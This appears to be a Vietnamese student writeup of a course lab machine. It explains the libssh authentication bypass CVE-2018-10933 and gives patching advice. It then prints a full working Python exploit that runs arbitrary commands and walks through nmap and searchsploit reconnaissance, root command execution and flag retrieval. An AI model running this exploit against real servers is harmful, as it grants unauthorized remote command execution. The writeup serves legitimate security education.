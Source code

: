 ```yaml
---
title: Bob Machine Writeup
subtitle: Linux Challenge trong môn An toàn mạng máy tính
readtime: true
thumbnail-img: /assets/img/BobMachine/thumbnail.jpeg
cover-img: /assets/img/BobMachine/cover-img.jpeg
tags: [Linux, Machine, Libssh, CVE]
---
```


# ***Thông tin dịch vụ***

| Địa chỉ IP      | Các port đang mở |
| ----------- | ----------- |
| 192.168.19.112  | TCP: 22, 25, 53, 80, 110, 143, 443, 587, 993,995, 3306, 7337   |
|    | UDP: Không có  |

# ***Leo thang đặc quyền***

**Lỗ hổng đã khai thác:**

> **LibSSH 0.7.6 / 0.8.4 - Unauthorized Access (CVE-2018-10933)**

**Giải thích lỗ hổng:**
Một lỗ hổng nghiêm trọng trong Libssh, thư viện triển khai Secure Shell (SSH) đã đửợc phát hiện, cho phép vượt quá cơ chế xác thực và chiếm quyền quản trị trên máy chủ tồn tại lỗ hổng mà không cần mật khẩu. Lỗ hổng được đặt tên là `CVE-2018-10933`, tồn tại trong phiên bản Libssh 0.6 đửợc phát hành trước năm 2014, khiến máy chủ các doanh nghiệp bị tấn công khi sử dụng các phiên bản trửớc 0.7.6 và 0.8.4. Nhửng rất may là OpenSSH và triển khai libssh trên Github không bị ảnh hửởng bởi lỗ hổng. Lỗ hổng xuất phát từ lỗi codế trong Libssh và "vô cùng đơn giản" để khai thác. Kẻ tấn công chỉ cần gửi một thông điệp `SSH2_MSG_USERAUTH_SUCCESS` tới một
máy chủ có kết nối SSH đửợc kích hoạt, tháy vì thông điệp chính xác là `SSH2_MSG_USERAUTH_REQUEST`. Vì lỗi logic trong libssh, thử viện không xác thực đửợc gói tin “đăng nhập thành công” đửợc gửi bởi máy chủ hay từ client và cũng không thể kiểm tra chính xác quá trình xác thực đã hoàn thành hay chưa. Do đó, nếu kẻ tấn công từ xa (client) gửi phản hồi `SSH2_MSG_USERAUTH_SUCCESS` này tới libssh, libssh coi xác thực đã thành công và cấp cho kẻ tấn công quyền truy cập vào máy chủ mà không cần nhập mật khẩu. Libssh đã giải quyết vấn đề này bằng việc phát hành các phiên bản libssh 0.8.4 và 0.7.6 vào ngày 16/10/2018, đồng thời công bố thông tin chi tiết của lỗ hổng.

**Khuyến nghị vá lỗ hổng:**
Nếu đã cài đặt Libssh trên trang web và đang sử dụng thành phần máy chủ, người dùng được khuyến cáo nên cài đặt các phiên bản cập nhật của Libssh trong thời gian sớm nhất.

**Mức độ ảnh hưởng:** [Cao] (CVSS Score: 6.4)

**Cách thức khai thác:**

```js
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

#pip3 install paramiko==2.0.8
#logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
logging.basicConfig(stream=sys.stdout)
bufsize = 2048

def execute(hostname, port, command):

 sock = socket.socket()

 try:
    sock.connect((hostname, int(port)))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)
    transport.start_client()
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)
    client = transport.open_session(timeout=10)
    client.exec_command(command)
    # stdin = client.makefile("wb", bufsize)
    stdout = client.makefile("rb", bufsize)
    stderr = client.makefile_stderr("rb", bufsize)
    output = stdout.read()
    error = stderr.read()
    stdout.close()
    stderr.close()
    return (output+error).decode()

 except paramiko.SSHException as e:
    logging.exception(e)
    logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

 except socket.error:
    logging.debug("Unable to connect.")
 return None
 
if __name__ == '__main__':
 print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

**Các bước khai thác:**

Sử dụng công cụ nmap thực hiện quét các port đáng mở trên máy mục tiêu 192.168.19.112. Kết quả cho thấy có 12 port TCP đáng mở gồm: `22, 25 53, 80, 110, 143, 443, 587, 993, 995, 3306, 7337`.

![nmap all ports](/assets/img/BobMachine/nmap.png){: .mx-auto.d-block :}

Sau nhiều thời gian khám phá, scan tất cả các port từ trên xuống dưới, ta tìm ra lỗ hổng từ port `7337` với dịch vụ SSH phiên bản `libssh 0.8.3`

![nmap 7337](/assets/img/BobMachine/nmap2.png){: .mx-auto.d-block :}

Thực hiện tìm kiếm các mã exploit phiên bản libssh này bằng công cụ searchsploit. Kết quả trả về 2 lỗ hổng liên quan đến libssh bao gồm mã exploit có thể sử dụng. Sau quá trình khai thác lỗ hổng đầu tiên không thành công, ta thực hiện khai thác lỗ hổng `Unauthorized Access` của libssh (đã đề cập ở trên). Truy cập đường dẫn và sử dụng mã nguồn đã cung cấp ở trên.

![searchsploit](/assets/img/BobMachine/libssh_cve.png){: .mx-auto.d-block :}

Mã exploit trên là đoạn mã python3, được ta sử dụng với 3 tham số: `IP nạn nhân (192.168.19.112), Port (7337), Command (lệnh thực thi trên shell)`. Dưới đây chúng tôi sử dụng lệnh `ls` để kiểm chứng.

![ls](/assets/img/BobMachine/exploit_ls.png){: .mx-auto.d-block :}

Kết quả trả về gồm các thư mục hiện có trên máy nạn nhân.

**Hình ảnh minh chứng:**

Kiểm tra tên user bằng lệnh whoami, thì kết quả cho thấy chúng tôi đã exploit được và leo thang đặc quyền lên root.

![whoami](/assets/img/BobMachine/whoami.png){: .mx-auto.d-block :}

**Nội dung tập tin Proof.txt:**

Tìm kiếm file proof.txt bằng `find / -uname proof.txt 2>/dev/null`. Kết quả trả về `root/proof.txt`, `cat` để xem nội dung flag có trong tập tin proof.txt.

![flag](/assets/img/BobMachine/flag.png){: .mx-auto.d-block :}

> **FLAG: flag{khong_som_thi_chieu_khong_mai_thi_mo}**
